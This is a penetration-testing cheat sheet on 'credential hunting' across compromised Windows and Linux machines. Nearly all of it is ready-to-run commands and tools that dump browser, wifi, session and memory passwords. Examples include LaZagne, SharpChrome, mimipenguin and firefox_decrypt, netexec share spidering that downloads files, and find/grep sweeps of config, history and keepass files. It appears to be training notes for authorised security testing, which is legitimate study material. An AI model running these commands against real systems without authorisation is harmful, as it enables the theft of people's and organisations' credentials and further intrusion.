 # Credential Hunting 

**Here we will look at various ways of searching for passwords in both Windows and Linux environments.**

## Windows

Once we have access to a target Windows machine through the GUI or CLI, incorporating credential hunting into our approach can provide significant advantages. Credential hunting is the process of performing detailed searches across the file system and through various applications to discover credentials.

Key terms to search for:
- Passwords
- Passphrases
- Keys
- Username
- User account
- Creds
- Users
- Passkeys
- configuration
- dbcredential
- dbpassword
- pwd
- Login
- Credentials
- Look for keywords within files such as passw, user, token, key, and secret.
- Search for files with extensions commonly associated with stored credentials, such as .ini, .cfg, .env, .xlsx, .ps1, and .bat.
- Watch for files with "interesting" names that include terms like config, user, passw, cred, or initial.

**Windows Search to find files**

**LaZagne**
````
> LaZagne.exe all
````

**BrowserCreds**
````
> .\SharpChrome.exe logins /unprotect
https://github.com/hakaioffsec/browservoyage
````

**SessionGopher**
````
> Import-Module .\SessionGopher.ps1
> Invoke-SessionGopher -Target <machine>
````

**Autologon**
````
> reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"
````

**findstr & Powershell**
````
> findstr /SIM /C:"password" *.txt *.ini *.cfg *.config *.xml *.git *.ps1 *.yml
> findstr /SI /M "password" *.xml *.ini *.txt
> findstr /si password *.xml *.ini *.txt *.config
> findstr /spin "password" *.*
> select-string -Path C:\Users\htb-student\Documents\*.txt -Pattern password (powershell)
> dir /S /B *pass*.txt == *pass*.xml == *pass*.ini == *cred* == *vnc* == *.config*
> Get-ChildItem C:\ -Recurse -Include *.rdp, *.config, *.vnc, *.cred -ErrorAction Ignore (powershell)
````

**Misc**
````
> gc 'C:\Users\<user>\AppData\Local\Google\Chrome\User Data\Default\Custom Dictionary.txt' | Select-String password
> gc (Get-PSReadLineOption).HistorySavePath
> foreach($user in ((ls C:\users).fullname)){cat "$user\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt" -ErrorAction SilentlyContinue}
````

**unattend.xml**

**StickyNotes**
````
Located at C:\Users\<user>\AppData\Local\Packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\LocalState\plum.sqlite
Copy the plum.sqlite to our machine
Open with DB Browser for SQLite
---------------------------------------------------------------------------------------------------------------------
- Viewing Sticky Notes Data Using PowerShell -
> Set-ExecutionPolicy Bypass -Scope Process
> Import-Module .\PSSQLite.psd1
> $db = 'C:\Users\<user>\AppData\Local\Packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\LocalState\plum.sqlite'
> Invoke-SqliteQuery -Database $db -Query "SELECT Text FROM Note" | ft -wrap
````

**User/Computer Description Field**
````
# Checking Local User Description Field
> Get-LocalUser

# Enumerating Computer Description Field with Get-WmiObject Cmdlet
> Get-WmiObject -Class Win32_OperatingSystem | select Description
````

**Wifi Passwords**
````
> netsh wlan show profile
> netsh wlan show profile <wifi_network> key=clear
````

**Snaffler**
````
c:\Users\Public>Snaffler.exe -s
````

**PowerHuntShares**
````
# Bypass execution policy restrictions
> Set-ExecutionPolicy -Scope Process Bypass
# Import module that exists in the current directory
> Import-Module .\PowerHuntShares.psm1
> Invoke-HuntSMBShares -Threads 100 -OutputDirectory c:\Users\Public
````

**Netexec**
````
$ nxc smb <IP> -u <user> -p '<password>' --spider <share> --content --pattern "passw"
$ nxc smb <IP> -u '<user>' -p '<password>' --shares -M spider_plus -o DOWNLOAD_FLAG=True (Dwonload all files)
$ nxc smb <ip> -u user -p pass -M keepass_discover
$ nxc smb <ip> -u <user>  -p <password> -M putty
$ nxc smb <ip> -u <user>  -p <password> -M vnc
$ nxc smb <ip> -u <user>  -p <password> -M mremoteng
$ nxc smb <ip> -u username -p password -M notepad
$ nxc smb <ip> -u username -p password -M notepad++
````

MANSPIDER
````
https://github.com/blacklanternsecurity/MANSPIDER
$ docker run --rm -v ./manspider:/root/.manspider blacklanternsecurity/manspider <IP> -c 'passw' -u '<user>' -p '<password>'
````

## Linux

There are several sources that can provide us with credentials that we put in four categories. These include, but are not limited to:

- Files including configs, databases, notes, scripts, source code, cronjobs, and SSH keys
- History including logs, and command-line history
- Memory including cache, and in-memory processing
- Key-rings such as browser stored credentials

**Files**
````
$ for l in $(echo ".conf .config .cnf");do echo -e "\nFile extension: " $l; find / -name *$l 2>/dev/null | grep -v "lib\|fonts\|share\|core" ;done
$ for i in $(find / -name *.cnf 2>/dev/null | grep -v "doc\|lib");do echo -e "\nFile: " $i; grep "user\|password\|pass" $i 2>/dev/null | grep -v "\#";done
$ for l in $(echo ".sql .db .*db .db*");do echo -e "\nDB File extension: " $l; find / -name *$l 2>/dev/null | grep -v "doc\|lib\|headers\|share\|man";done
$ find /home/* -type f -name "*.txt" -o ! -name "*.*"
$ for l in $(echo ".py .pyc .pl .go .jar .c .sh");do echo -e "\nFile extension: " $l; find / -name *$l 2>/dev/null | grep -v "doc\|lib\|headers\|share";done
$ find / -name "*.kdbx" 2>/dev/null
$ find / \( -name "*.kdbx" -o -name "*.kdb" -o -iname "*keepass*" \) 2>/dev/null
$ find / -name "*.psafe3" 2>/dev/null
$ find / \( -name "*.kdbx" -o -name "*.kdb" -o -name "*.psafe3" -o -iname "*keepass*" -o -iname "*pwsafe*" -o -iname "*passwordsafe*" \) 2>/dev/null
$ grep 'DB_USER\|DB_PASSWORD' wp-config.php
$ find / ! -path "*/proc/*" -iname "*config*" -type f 2>/dev/null
````

**Cronjobs**
````
$ cat /etc/crontab
$ ls -la /etc/cron.*/
````

**History Files**
````
$ cat /home/*/.bash*
$ cat .bash_history
````

**Log Files**
````
$ for i in $(ls /var/log/* 2>/dev/null);do GREP=$(grep "accepted\|session opened\|session closed\|failure\|failed\|ssh\|password changed\|new user\|delete user\|sudo\|COMMAND\=\|logs" $i 2>/dev/null); if [[ $GREP ]];then echo -e "\n#### Log file: " $i; grep "accepted\|session opened\|session closed\|failure\|failed\|ssh\|password changed\|new user\|delete user\|sudo\|COMMAND\=\|logs" $i 2>/dev/null;fi;done
````

**Memory and cache**
````
https://github.com/huntergregal/mimipenguin (Need Root Permissions)
$ sudo python3 mimipenguin.py
$ sudo python2.7 laZagne.py all
````

**Browser credentials**
````
https://github.com/unode/firefox_decrypt
$ python3.9 firefox_decrypt.py
````

